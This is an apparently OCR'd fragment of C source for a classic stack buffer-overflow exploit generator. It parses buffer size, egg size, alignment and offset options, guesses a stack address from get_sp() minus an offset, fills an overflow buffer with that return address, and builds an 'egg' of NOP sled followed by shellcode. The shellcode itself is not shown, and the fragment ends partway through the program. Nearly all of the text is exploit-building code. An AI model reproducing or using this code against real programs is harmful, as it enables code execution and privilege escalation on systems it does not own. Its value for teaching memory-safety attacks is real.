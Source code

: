   while ((c = getopt(argc, argv, "a:b:e:o:")) != EOF)
    switch (c) {
      case 'a':
        align = atoi(optarg);
        break;
      case 'b':
        bsize = atoi(optarg);
        break;
      case 'e':
        eggsize = atoi(optarg);
        break;
      case 'o':
        offset = atoi(optarg);
        break;
      case '?':
        usage();
        exit(0);
    }

  if (strlen(shellcode) > eggsize) {
    printf("Shellcode is larger the the egg.\n");
    exit(0);
  }

  if (!(bof = malloc(bsize))) {
    printf("Can't allocate memory.\n");
    exit(0);
  }
  if (!(egg = malloc(eggsize))) {
    printf("Can't allocate memory.\n");
    exit(0);
  }

  addr = get_sp() - offset;
  printf("[ Buffer size:\t%d\t\tEgg size:\t%d\tAligment:\t%d\t]\n",
    bsize, eggsize, align);
  printf("[ Address:\t0x%x\tOffset:\t\t%d\t\t\t\t]\n", addr, offset);

  addr_ptr = (long *) bof;
  for (i = 0; i < bsize; i+=4)
    *(addr_ptr++) = addr;

  ptr = egg;
  for (i = 0; i <= eggsize - strlen(shellcode) - NOP_SIZE; i += NOP_SIZE)
    for (n = 0; n < NOP_SIZE; n++) {
      m = (n + align) % NOP_SIZE;
      *(ptr++) = nop[m];
    }

  for (i = 0; i < strlen(shellcode); i++)
    *(ptr++) = shellcode[i];

  bof[bsize - 1] = '\0';
  egg[eggsize - 1] = '\0';
